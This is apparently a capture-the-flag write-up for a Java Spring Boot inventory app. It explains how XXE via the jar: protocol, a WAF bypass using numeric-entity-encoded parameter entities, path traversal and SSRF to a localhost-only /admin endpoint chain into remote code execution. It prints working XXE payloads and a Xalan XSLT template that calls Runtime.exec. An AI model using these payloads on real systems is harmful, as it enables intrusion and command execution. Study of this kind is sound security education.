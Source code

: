 # Warehouse inventory

## The app

The app is a Java Spring Boot application with three endpoints:

- `/upload`: Permit an upload of new inventory; this endpoint makes a validation and adds some fields to the XML
- `/download`: Download the last inventory
- `/admin`: Accessible only from localhost, this endpoint permits admins to view inventory.xml in HTML form with an XLST template

```Note: The upload also has a regex pattern to match some common attacks.```

```Note: To get the flag we have to run cat_flag```



## Bugs

### XXE

Java is vulnerable to XXE by default and supports the `jar:` protocol.

`Jar:` protocol permits the extraction and download of files; Java supports this protocol directly on external entities in XML.

```Note: in Java, if the XXE is a folder, the result of the external entities is an ls.```

### RCE
A tampered XLST template can lead to RCE because we can instance all Java classes as `Runtime`

### Path traversal

In `/admin` we can notice that we have a path traversal so that we can load any file as an XSLT template.


## Exploitation

### Bypass WAF

We don't have the pattern, so we have to try some payload; we notice that the entity declared with `SYSTEM` or `PUBLIC` is denied, but if we set only a string, it works. Like this

```xml
<!ENTITY xxe "test">
```

The string in XML supports HTML entities, so we can write our payload in numerical HTML entities as `parameter entities` and recall it in the `DOCTYPE`

So a single payload:

```xml
<!ENTITY xxe SYSTEM "file:///tmp">
```

will be

```xml
<!ENTITY % a "&#60;&#33;&#69;&#78;&#84;&#73;&#84;&#89;&#32;&#120;&#120;&#101;&#32;&#83;&#89;&#83;&#84;&#69;&#77;&#32;&#34;&#102;&#105;&#108;&#101;&#58;&#47;&#47;&#47;&#116;&#109;&#112;&#34;&#62;"> %a;
```

So the XML parser decodes the numeric entities and, with `%a;` reparse it. So we have XXE

### RCE

We need a malicious `XSLT` template; we can make a Google search and find some exploits, for example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
                xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:date="http://xml.apache.org/xalan/java/java.util.Date"
                xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
                xmlns:str="http://xml.apache.org/xalan/java/java.lang.String"
                exclude-result-prefixes="date">

    <xsl:output method="text"/>
    <xsl:template match="/">

        <xsl:variable name="cmd"><![CDATA[cat_flag]]></xsl:variable>
        <xsl:variable name="rtObj" select="rt:getRuntime()"/>
        <xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
        <xsl:variable name="efgh" select="jv:getInputStream($process)" xmlns:jv="http://xml.apache.org/xalan/java"/>
        <xsl:variable name="ijkl" select="isr:new($efgh)" xmlns:isr="http://xml.apache.org/xalan/java/java.io.InputStreamReader"/>
        <xsl:variable name="mnop" select="br:new($ijkl)" xmlns:br="http://xml.apache.org/xalan/java/java.io.BufferedReader"/>
        <xsl:value-of select="jv:readLine($mnop)" xmlns:jv="http://xml.apache.org/xalan/java"/>
        <xsl:value-of select="jv:readLine($mnop)" xmlns:jv="http://xml.apache.org/xalan/java"/>

    </xsl:template>
</xsl:stylesheet> 
```

This template runs `cat_flag`, reads the output, and prints to the screen.

### Exploit

After this, the exploitation path is clear:

- With XXE and `jar:` protocol, we can download the XLST file in the `/tmp` directory with a random name.
The file is deleted when the request ends, so we need a server that sends the file but does not close the connection. You can see an example in the `exploit.py` file

- Spring is a threaded server, so while the first request is pending, we can send another request with an XXE pointing to `file:///tmp` and retrieve the random name of the malicious XSLT template

- To bypass the block of `localhost` in `/admin`, we can make an XXE payload pointing to `http://localhost:6060/admin?template-file=../../../../tmp/{random_name}`
